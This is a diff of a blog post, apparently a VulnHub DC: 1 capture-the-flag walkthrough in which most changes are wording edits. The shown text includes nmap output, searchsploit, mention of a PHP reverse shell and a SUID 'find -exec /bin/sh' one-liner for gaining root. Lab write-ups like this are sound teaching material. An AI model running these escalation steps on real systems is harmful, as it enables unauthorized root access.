

Before and after one commit to firatfolcay/arszilla.github.io, a Jekyll site: the page built from _posts/2019-07-09-vulnhub-dc_1.markdown, in a window 1280 px wide and 1400 px high, scrolled down 632 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Updated DC: 1

````diff
--- a/_posts/2019-07-09-vulnhub-dc_1.markdown
+++ b/_posts/2019-07-09-vulnhub-dc_1.markdown
@@ -7,11 +7,9 @@
 ---
 
 ## Information
-DC: 1 is the first box on the VulnHub series *DC* by [DCAU][DCAU]. It is relatively easy compared to the other boxes
-in the series while being quite similar to [Mr. Robot][Mr. Robot] in terms of methodology; getting a reverse shell with
-PHP while using a SQL injection to do it. There are five flags available but flags 1 through 4 exist to give you hints
-on what to do next to capture the next flag. As a result, this writeup will only talk about how to capture the root
-flag only.
+DC: 1 is the first box on the VulnHub series *DC* by [DCAU][DCAU]. There are 5 flags available but flags 1 through 4
+exist to give you hints on what to do next to capture the next flag. As a result, this writeup will only talk about how
+to capture the root flag only.
 
 ## Tasks
 - Capture the root flag
@@ -24,24 +22,12 @@
 - Spawn a proper shell with `python`
 - Use `LinEnum` to find possible vulnerabilities in the system to escalate current privileges to `root`
 
-## Tools Used
-- `nmap`
-- `droopescan`
-- `php-reverse-shell`
-- `nc`
-- `python`
-- `LinEnum`
-- `find`
-
 ## Walkthrough
 ### nmap
 We begin with a pretty basic `nmap` scan to see what we're dealing with.
 
 ```
 $ nmap -sC -sV 192.168.2.111
-
-[...]
-
 PORT    STATE SERVICE VERSION
 22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
 | ssh-hostkey:
@@ -66,14 +52,12 @@
 |_  100024  1          43799/udp  status
 MAC Address: 18:D6:C7:B8:FD:A1 (Tp-link Technologies)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
-
-[...]
 ```
 
-We have `SSH` on Port 22, `HTTP` on Port 80 and `RPC` on Port 111.
+We have `SSH` on Port 22, `HTTP` on Port 80 with Drupal installed on it and `RPC` on Port 111.
 
 ### Drupal
-Taking a look at the HTTP, we are greeted with a Drupal website.
+Taking a look at the HTTP, we're greeted with a pretty empty Drupal website.
 
 ![Drupal - Homepage][Drupal - Homepage]
 
@@ -121,10 +105,8 @@
 
 ```
 $ searchsploit Drupal
-
 -------------------------------------------------------------------------------
 Exploit Title
-
 -------------------------------------------------------------------------------
 [...]
 
@@ -229,7 +188,7 @@
 ```
 
 `LinEnum` found an interesting `SUID` regarding `find`. A quick research reveals that `find` is vulnerable to `--exec`
-attack where an attacker can spawn a shell where they are `root`.
+attack where an attacker can spawn a shell where they're `root`.
 
 ```
 $ find /etc/passwd -exec /bin/sh \;
@@ -253,9 +212,7 @@
 $ cat thefinalflag.txt
 Well done!!!!
 
-
 Hopefully you've enjoyed this and learned some new skills.
-
 
 You can let me know what you thought of this little journey
 by contacting me via Twitter - @DCAU7
````
Also changed, not shown: other parts of _posts/2019-07-09-vulnhub-dc_1.markdown (+3 -26 lines).
